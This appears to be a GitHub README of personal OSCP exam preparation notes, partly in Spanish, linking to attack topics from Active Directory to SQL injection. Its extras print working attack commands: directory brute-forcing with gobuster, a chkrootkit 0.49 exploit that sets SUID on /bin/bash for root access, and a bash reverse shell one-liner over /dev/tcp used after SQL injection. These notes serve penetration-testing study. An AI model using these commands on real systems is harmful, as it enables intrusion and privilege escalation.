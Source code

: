 # OSCP preparation

## List
- [**Windows Active Directory**](./winad.md)
- [**Shell Management**](./shellMGT.md)
- [**General enumeration**](./enum.md)
- [**Engagement Structure**](https://academy.hackthebox.com/module/39/section/384)
- [**File transfers**](./fileTransfer.md)
- [**Metasploit tricks**](./msf.md)
- [**Pivoting**](./pivoting.md)
- [**Cross-Site Scripting**](./xss.md)
- [**SQL Injection**](./sqli.md)
- [**Local File Inclusion & Path Traversal**](./LFI.md)
- [**Arbitrary File Upload**](./arbitraryFileUpload.md)
- [**Command Injection**](./commandInjection.md)
- [**Other web attacks**](./otherWebAttacks.md)
- [**Reporting**](./reporting.md)


## Extras


### En una maquina que pwnee que tenía la vuln shellshock, fue clave la enumeración para poder explotar la misma
```
❯ gobuster dir -u http://10.10.10.56/cgi-bin -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 400 -x cgi,php,sh --add-slash
```

#### el -x sh me dió la enumeración correcta

Sí encuentro el puerto 53 es conveniente seguir la siguiente guía de enumeración
https://book.hacktricks.xyz/network-services-pentesting/pentesting-dns

### Vulnerabilidad en chkrootkit versión 0.49. Para evitar usar metasploit, sirve chequear:
[https://www.exploit-db.com/exploits/33899](https://www.exploit-db.com/exploits/33899)

```
cat /etc/cron.daily

/usr/bin/chkrootkit
ls -la /usr/bin/chkrootkit     // Do we have SUID?
chkrootkit -V
echo "#!/bin/bash" > /tmp/update
echo "chmod +s /bin/bash" >> /tmp/update
Wait a While ...
/bin/bash -p
whoami
```

### Problemas para reverse shell dentro de sqli

Hay veces que cuando puedo obtener RCE mediante una sqli porque tengo acceso de escritura con el user de la db que maneja la aplicación web no siempre me quiere ejecutar bien una revshell, pero con esto sí:

```
bash -c 'bash -i >& /dev/tcp/$IP/$PORT 0>&1'
```

es el único que me vino funcionando en 2 maquinas de SQLI